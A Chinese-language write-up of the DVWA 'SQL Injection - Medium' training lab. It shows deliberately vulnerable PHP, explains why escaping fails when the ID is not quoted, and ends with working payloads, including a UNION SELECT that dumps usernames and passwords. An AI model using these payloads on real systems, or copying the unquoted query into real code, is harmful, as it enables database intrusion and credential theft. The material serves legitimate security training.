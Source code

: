 # SQL Injection - Medium

## View Source

```PHP
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

- [`mysqli_real_escape_string()`](https://www.php.net/manual/zh/mysqli.real-escape-string.php)
	- 過濾 `\0 (NUL) \n \r ctl-Z " ' \`
	- [`mysql_real_escape_string()`](https://www.php.net/manual/zh/function.mysql-real-escape-string.php)
		- 已被移除

### View `index.php`

1. `docker exec -it dvwa /bin/bash`
2. `vim /var/www/html/vulnerabilities/sqli/index.php`
- https://github.com/digininja/DVWA/blob/master/vulnerabilities/sqli/index.php#L52

```PHP
if( $vulnerabilityFile == 'medium.php' ) {
	$page[ 'body' ] .= "\n				<select name=\"id\">";

	for( $i = 1; $i < $number_of_rows + 1 ; $i++ ) { $page[ 'body' ] .= "<option value=\"{$i}\">{$i}</option>"; }
	$page[ 'body' ] .= "</select>";
}
```

- `$number_of_rows` 在這裡被用來產生指定數量的下拉式選單選項

### View Page Source

```HTML
<div class="vulnerable_code_area">
  <form action="#" method="POST">
    <p>
      User ID:
      <select name="id">
        <option value="1">1</option>
        <option value="2">2</option>
        <option value="3">3</option>
        <option value="4">4</option>
        <option value="5">5</option>
      </select>
      <input type="submit" name="Submit" value="Submit">
    </p>

  </form>
  
</div>
```

- 改成下拉式選單且改成 *POST*

## Code Review

- 將 *GET* 改成 *POST* 並過濾特殊字元來防止 *SQLi*

## Answer

- 仔細觀察可以發現查詢語句有些微不同
1. 原本的 *PHP* 語句
	- `$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";`
2. 雙引號裡面的 *SQL* 語句
	- `SELECT first_name, last_name FROM users WHERE user_id = $id;`
3. 因為 `$id` 沒有用引號包起來，所以不需要增加 `'` 來截斷，也就不需要怕被過濾
	- `SELECT first_name, last_name FROM users WHERE user_id = 0 OR 1=1;`
4. 因為是 *POST* 的方式，方便的話可以直接透過 *F12 DevTools* 來更改成要注入的語句；或者可以使用 *Burp Suite* 的 *Proxy* 來攔截和修改發出的請求封包

### Example

```
0 OR 1=1
0 UNION SELECT user, password FROM users
```